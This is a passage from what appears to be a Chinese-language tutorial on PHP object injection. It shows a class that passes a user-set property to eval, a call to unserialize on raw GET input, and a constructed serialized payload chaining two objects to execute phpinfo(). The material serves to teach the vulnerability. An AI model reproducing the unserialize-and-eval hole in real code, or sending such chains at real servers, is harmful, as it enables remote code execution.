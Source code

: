 ```php
        echo "实例已销毁！";
    }
}
class func2{
    public $func2_test;
    function action(){
        eval($this->func2_test);
    }
}
unserialize($_GET['cmd']);
?>
```

构造 payload：

```php
<?php
class demo{
    public $demo_test;
    public function __construct(){
        $this->demo_test = new func2();
        $this->demo_test->func2_test = "phpinfo();";
    }
    public function __destruct(){
        $this->demo_test->action();
    }
}
class func2{
    public $func2_test;
    function action(){
        eval($this->func2_test);
    }
}
$class = new demo();
$str = serialize($class);
echo $str;
?>
//O:4:"demo":1:{s:9:"demo_test";O:5:"func2":1:{s:10:"func2_test";s:10:"phpinfo();";}}
```

传入 payload：

![](picture/1.png)
